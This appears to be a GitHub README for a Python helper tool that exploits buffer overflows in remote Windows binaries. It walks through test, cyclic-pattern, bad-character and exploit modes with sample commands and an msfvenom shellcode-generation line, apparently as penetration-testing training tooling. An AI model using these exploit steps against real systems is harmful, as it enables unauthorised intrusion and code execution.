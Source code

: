 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig_buffer_overflow.py test remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py test 10.2.31.155 2050 4096 'cmd /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig_buffer_overflow.py cyclic remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py cyclic 10.2.31.155 2050 4096 'cmd /.:/'
```

write - Writes hex value to buffer offset
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badAfter excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badAfter 000a

./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badBefore reverseJmpSize excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badBefore 800 000a
```

exploit - Sends malicious payload via buffer overflow
```
./ig_buffer_overflow.py exploit remoteHost remotePort buffSize buffHead offset hexcontent reverseJmpSize shellCodeFile [nops]
./ig_buffer_overflow.py exploit 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 800 payload 2
```

## Parameters:
* [mode] : Script modes: test|cyclic|write|exploit
* remoteHost : Remote host IP.
* remotePort : Remote host port.
* buffSize : Amount of variable bytes to send.
* buffHead : Static buffer string set at the beginning of the buffer. Is usually the crash string. Size is considered in buffSize calc.
* offset : Place in buffer where content can be added.
* hexcontent	: Hex string to add at the offset position. Can be considered as big endian (default) or little endian (will be reversed). Use 'g' or 'l' to delimit the order. Examples:
  * 'g01020304l05060708' --> will send '0102030408070605'
  * '01020304' --> will send '01020304'
* bad* : Adds bad chars before (badBefore) or after (badAfter) the content. Used for bad char testing.
* excludeChars : List of chars (formatted as hex string) to be excluded from badchar list. Example: 000a excludes badchars '00' and '0a'.
* reverseJmpSize : Size in bytes to jump before the content to inject bad chars or the shell code.
* shellCodeFile : Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o shellCodeFile
* nops : Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
